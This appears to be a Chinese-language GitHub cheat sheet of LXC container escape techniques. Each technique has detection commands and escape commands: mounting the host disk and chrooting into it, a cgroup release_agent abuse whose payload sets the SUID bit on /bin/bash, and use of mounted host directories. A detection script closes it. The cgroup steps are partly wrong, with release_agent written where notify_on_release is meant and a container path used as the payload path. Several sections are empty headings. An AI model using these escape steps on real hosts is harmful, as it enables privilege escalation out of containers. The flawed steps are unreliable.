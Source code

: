 # lxc逃逸
LXC 容器逃逸技术概览​
​1. 特权模式容器逃逸 (Privileged Mode)
检测

```
# 检查 LXC 配置文件
cat /var/lib/lxc/*/config 2>/dev/null

# 检查是否特权容器
grep -q "lxc.idmap" /var/lib/lxc/*/config 2>/dev/null
# 如果存在 lxc.idmap 映射，通常为非特权容器
```
逃逸方法:

```
# 方法一：直接挂载宿主机根文件系统
mkdir /tmp/host_root
mount /dev/sda1 /tmp/host_root  # 需要先 fdisk -l 查看磁盘设备
# 然后就可以完全访问宿主机文件系统：
chroot /tmp/host_root bash

# 方法二：通过设备文件访问
# 如果可以访问 /dev/sda1、/dev/dm-0 等宿主机磁盘设备，可以直接挂载
```
2. 滥用 CGroup 通知功能
检测
```
# 检查 cgroup 配置
cat /proc/1/cgroup
# 查找包含 "notify_on_release" 的 cgroup
find /sys/fs/cgroup/ -name "notify_on_release" -exec cat {} \; 2>/dev/null
```
逃逸方法:

```
# 1. 启用 notify_on_release
echo 1 > /sys/fs/cgroup/memory/release_agent

# 2. 设置 release_agent 路径（指向宿主机上的脚本）
echo '/tmp/payload.sh' > /sys/fs/cgroup/memory/release_agent

# 3. 创建有效载荷脚本
cat > /tmp/payload.sh << 'EOF'
#!/bin/sh
chmod 4755 /bin/bash  # 或者任何你想执行的命令
EOF
chmod +x /tmp/payload.sh

# 4. 触发释放过程
echo $$ > /sys/fs/cgroup/memory/cgroup.procs
```
3. 内核漏洞利用
4. 挂载点逃逸 
检测:

```
# 检查当前挂载点
mount | grep -E '(overlay|ext4|xfs|bind)'

# 检查是否有敏感目录被挂载
ls -la /host  # 某些配置可能挂载宿主机目录到 /host
```

​逃逸方法:

```
# 如果发现宿主机目录被挂载到容器内
cd /host  # 可能直接访问宿主机文件系统

# 尝试挂载新设备
fdisk -l  # 查看可用设备
mkdir /mnt/escape
mount /dev/sda1 /mnt/escape
```
5. LXCFS 逃逸
LXCFS 是 LXC 的文件系统视图虚拟化工具，可能存在配置漏洞。
检测方法：

```
# 检查 LXCFS 相关挂载
mount | grep lxcfs

# 检查相关进程
ps aux | grep lxcfs
```


6. 网络逃逸 (Network Escape)​
检测:

```
# 检查网络配置
ip addr show
ip route show

# 检查是否与宿主机共享网络命名空间
# 如果容器内有 docker0、eth0 等宿主机网络设备，可能是共享网络
```

----------------------------------   


自动检测脚本

```
#!/bin/bash

echo "[+] LXC Container Escape Detection Script"

# 1. 检查特权模式
echo -n "Privileged mode: "
if [ $(id -u) -eq 0 ] && [ -x /sbin/capsh ]; then
    capsh --print | grep -q 'Bounding set = cap' && echo "YES" || echo "NO"
else
    echo "UNKNOWN"
fi

# 2. 检查设备访问
echo -n "Host device access: "
ls /dev/sda* 2>/dev/null && echo "YES" || echo "NO"

# 3. 检查挂载点
echo "Mount points:"
mount | grep -E '(overlay|bind|ext4|xfs|nfs)'

# 4. 检查 cgroup
echo "CGroup info:"
cat /proc/1/cgroup

# 5. 检查内核版本
echo "Kernel version: $(uname -r)"

# 6. 检查 LXCFS
echo -n "LXCFS mounted: "
mount | grep -q lxcfs && echo "YES" || echo "NO"

# 7. 检查网络模式
echo "Network interfaces:"
ip addr show
```



